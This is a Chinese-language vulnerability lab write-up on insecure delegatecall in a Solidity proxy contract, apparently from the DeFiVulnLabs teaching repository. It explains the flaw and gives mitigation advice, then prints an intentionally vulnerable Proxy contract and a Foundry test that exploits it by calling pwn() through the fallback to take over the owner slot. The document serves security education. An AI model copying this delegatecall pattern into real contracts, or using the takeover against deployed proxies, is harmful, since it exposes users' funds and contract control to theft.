 # 不安全委托调用
[Delegatecall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Delegatecall.sol)  

**名称：** 不安全委托调用漏洞  

**描述：**  
Proxy合约中的变量owner被操控漏洞是智能合约设计中的缺陷，这种缺陷允许攻击者操纵Proxy合约的owner，并且onwer被硬编码为0xdeadbeef。  
这个漏洞的产生是由于在Proxy合约的fallback函数中使用了delegatecall。   
delegatecall允许攻击者在Proxy合约上下文中，调用Delegate合约中的pwn()函数，从而改变Proxy合约状态变量owner的值。  
这允许智能合约在运行时，从不同的地址动态加载代码。  

**场景：**  
Proxy合约是为了帮助用户调用逻辑合约而设计的。
Proxy合约的owner被硬编码为0xdeadbeef。  
你可以操纵代理合约的owner吗？  

**解决方法：**  
为了缓解Proxy合约所有者被操纵漏洞，除非明确需求使用 delegatecall，否则尽量不要使用。即使要使用时也要确保使用delegatecall的安全性。  
如果对于合约的功能而言委托调用是必要的，务必验证和清理输入，以避免出现意外行为。  


**Proxy 合约：**  
```solidity
contract Proxy {
    address public owner = address(0xdeadbeef); // slot0
    Delegate delegate;

    constructor(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
    }

    fallback() external {
        (bool suc, ) = address(delegate).delegatecall(msg.data); // 漏洞
        require(suc, "Delegatecall failed");
    }
}
```


**如何测试：**  

`forge test --contracts src/test/Delegatecall.sol -vvvv` 

```solidity
// 测试使用delegatecall场景的函数
function testDelegatecall() public {
    // 初始化一个新的委托合约，即“逻辑合约”。
    DelegateContract = new Delegate(); 
    // 初始化一个新的代理合约，将委托合约的地址传递给构造函数。这就是“代理合约”。
    proxy = new Proxy(address(DelegateContract)); 

    // 记录Alice的地址。
    console.log("Alice address", alice);
    // 记录代理合约的所有者。
    console.log("DelegationContract owner", proxy.owner());

    // 记录更改代理合约所有者操作的开始
    console.log("Change DelegationContract owner to Alice...");
    // 将msg.sender设置为Alice。
    vm.prank(alice);
    // 通过delegatecall 调用Delegate合约的pwn函数.这就是漏洞。
    address(proxy).call(abi.encodeWithSignature("pwn()")); 
    // Proxy.fallback()将委托调用Delegate.pwn(), 使得Alice成为代理合约的所有者。

    // 记录代理合约的新所有者。
    console.log("DelegationContract owner", proxy.owner());
    // 记录漏洞攻击完成。
    console.log(
        "Exploit completed, proxy contract storage has been manipulated"
    );
}

// Delegate 合约, 包含了可以通过delegatecall调用的代码。
contract Delegate {
    // 合约的所有者。
    address public owner; // slot0

    // pwn 函数, 将合约的所有者设置为消息发送者。
    function pwn() public {
        owner = msg.sender;
    }
}
```
**红框：** 攻击成功，owner已经更改
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3d7b2665-e934-4b5a-b9ec-1302656f7da8%2FUntitled.png?table=block&id=6be82235-a425-44a7-9174-c6bfb0e027ec&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

